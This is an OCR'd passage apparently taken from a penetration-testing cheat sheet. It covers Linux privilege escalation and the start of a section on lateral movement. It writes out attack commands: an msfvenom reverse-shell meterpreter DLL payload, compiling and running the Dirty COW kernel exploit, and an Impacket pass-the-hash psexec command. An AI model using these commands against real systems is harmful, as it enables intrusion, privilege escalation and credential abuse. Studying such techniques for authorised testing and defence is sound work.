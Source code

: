     bash

        msfvenom -p windows/meterpreter/reverse_tcp -f dll > malicious.dll

Linux Privilege Escalation:

    SUID Executables:
        Description: Exploit SUID binaries that have improper configurations or known vulnerabilities.
        Tools: GTFOBins, find
        Example:

        bash

    find / -perm -4000 2>/dev/null

Kernel Exploits:

    Description: Use known vulnerabilities in the Linux kernel to gain root access.
    Tools: Dirty COW, Exploit-DB
    Example:

    bash

    gcc -o dirtyc0w dirtyc0w.c -pthread
    ./dirtyc0w

Exploiting Weak File Permissions:

    Description: Exploit files or directories with weak permissions to modify or execute scripts with elevated privileges.
    Tools: Manual inspection, find, custom scripts
    Example:

    bash

        find / -type f -perm -o+w 2>/dev/null

Recommendations:

    Regularly Update Exploit Databases: Keep tools like Exploit-DB and Metasploit up to date with the latest exploits.
    Use Automated Scripts: Utilize tools like LinPEAS and WinPEAS to automate privilege escalation checks and identify potential vulnerabilities.

7. Lateral Movement and Pivoting

Lateral movement involves moving through the network from the initially compromised machine to other systems, often to gain access to more valuable targets.
Techniques for Lateral Movement:
A. Pass-the-Hash (PtH)

    Description: Using a captured hash to authenticate to other systems without needing plaintext passwords.
    Tools: Mimikatz, Metasploit, Impacket
    Example:

    bash

    psexec.py -hashes <LM_Hash>:<NT_Hash> administrator@<target_IP>

B. Pass-the-Ticket (PtT)
